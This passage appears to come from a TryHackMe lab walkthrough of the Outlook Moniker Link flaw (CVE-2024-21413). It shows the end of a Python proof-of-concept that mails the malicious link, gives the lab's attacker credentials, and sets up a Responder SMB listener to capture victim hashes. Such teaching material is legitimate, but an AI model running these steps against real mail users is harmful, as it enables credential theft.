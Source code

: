 ```python
server.ehlo()
try:
 server.login(sender_email, password)
except Exception as err:
 print(err)
 exit(-1)

try:
 server.sendmail(sender_email, [receiver_email], message.as_string())
 print("\n Email delivered")
except Exception as error:
 print(error)
finally:
 server.quit()
```

The PoC:

- Takes an attacker & victim email. Normally, you would need to use your own SMTP server (this has already been provided for you in this room)
- Requires the password to authenticate. For this room, the password for **attacker@monikerlink.thm** is **attacker**
- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
- Then, fill in the "subject", "from" and "to" fields in the email
- Finally, it sends the email to the mail server

Letâ€™s use Responder to create an SMB listener on our attacking machine. For the THM AttackBox, the interface will be`-I ens5`. The interface name will differ if you are using your own device (i.e. Kali). If you would like some homework, an Impacket server can also be used.

Starting Responder on our AttackBox

```shell-session
root@attackbox:# responder -I ens5
 __
 .----.-----.-----.-----.-----.-----.--| |.-----.----.
 | _| -__|__ --| _ | _ | | _ || -__| _|
 |__| |_____|_____| __|_____|__|__|_____||_____|__|
 |__|

 NBT-NS, LLMNR & MDNS Responder 3.1.1.0

 Author: Laurent Gaffie (laurent.gaffie@gmail.com)
 To kill this script hit CTRL-C

-- cut for brevity --

[+] Listening for events...
```

Let's open the vulnerable machine by pressing the "CVE-2024-21413" pane in the split-screen view. ![Opening the vulnerable machine view in the split-screen pane](https://assets.tryhackme.com/additional/CVE-2024-21410/pane1.png) 
